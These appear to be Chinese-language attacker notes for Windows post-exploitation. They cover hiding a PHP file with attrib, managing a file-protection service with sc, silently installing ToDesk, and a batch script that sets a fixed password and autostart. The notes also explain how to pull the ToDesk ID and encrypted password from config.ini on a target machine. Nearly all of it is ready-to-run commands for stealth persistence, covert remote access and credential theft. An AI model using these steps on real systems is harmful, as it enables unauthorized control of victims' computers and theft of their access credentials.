 ### 文件隐藏

`Attrib +s +a +h +r 1.php` 隐藏文件或者目录

### 文件保护

http://www.xoslab.com/efl.html   //windows文件保护 ![image.png](../资源文件/图片/202303251632451.png)

1. 一般只留第一个
2. sc qc/stop/delete xlkfs    //检查/停止/删除这个文件保护的服务  

### todesk

官方文档https://www.todesk.com/helpcenter/solo-65.html

1. ToDesk_4.3.2.1.exe /S                    todesk静默安装
2. 将下面脚本保存为2.bat

```
@echo off
for /f "delims=" %%i in ('"C:\Program Files (x86)\ToDesk\ToDesk.exe" -setpasswd 123456') do echo %%i
for /f "delims=" %%i in ('"C:\Program Files (x86)\ToDesk\ToDesk.exe" -status') do echo %%i
for /f "delims=" %%i in ('"C:\Program Files (x86)\ToDesk\ToDesk.exe" -autostart on') do echo %%i
Pause
```

1. 设置密钥123456，开机自启 ![image.png](../资源文件/图片/202303251636134.png)
2. 如果目标机器已安装todesk
   1. 这种意外情况对于我们来说就挺，应该是那种想到了开心的事的感觉。其实在这里要说的是另一种方法获取识别码以及连接密码，我们只需要找到todesk的根目录即可，然后查看config.ini，在cinfig.ini可以找到识别码以及加密的密码。
